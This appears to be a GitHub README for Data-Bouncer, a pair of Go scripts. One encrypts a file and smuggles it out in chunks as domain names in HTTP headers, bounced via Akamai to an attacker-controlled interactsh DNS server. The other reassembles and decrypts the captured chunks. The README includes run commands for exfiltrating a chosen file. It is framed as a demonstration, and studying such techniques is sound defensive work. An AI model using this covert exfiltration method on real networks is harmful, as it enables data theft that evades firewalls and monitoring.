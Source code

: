 # Data-Bouncer

I came across this Proof of Concept outlined here in https://thecontractor.io/data-bouncing.
I took their ideas and wrote two Go scripts that can be used for demonstration purposes.

One that encrypts and bounces the data you want to exfiltrate and the other that reassembles and decrypts it.

You will need an OOB dns server under you're control for this to work and collect the data. Here I'm using https://github.com/projectdiscovery/interactsh

From my testing this should work on any url that touches Akamai.

### Bounce.go
This script reads your chosen domain names from domains.txt, first encrypts your chosen file using a password you provided, encodes the file into Base32 and finally splits it into 63 byte chunks and sends them as part of a domain name in an HTTP header.

Example:
```
go run bounce.go -f <filename> -p <password> -u <UUID> -e <interact server url> -v
```

### Regenerate.go
This script reads the JSON output from your interactsh server, processes and reassembles the chunks and does the reverse by decoding, decrypting, and finally outputting the file.

Example:
```
go run regenerate.go -i <exported.json> -o <outputfile> -p <password> -u <UUID> -v
```

### Images
Example of forward traffic from a FortiGate 

![FortiGate1](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/e4f26c0b-53ec-45db-a438-6fc340b87d1d)


Example of bouncing a file

![bounce](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/3ddfe42e-97f5-4693-b44b-8ecc544a8f0c)


Example of regenerating a file

![regen](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/6a2ac6d1-7d40-455b-b1ae-a83143078076)

Example from interactsh web client

![interactsh](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/8c8f3ac9-ccf8-44be-9417-36bff4bea1c4)

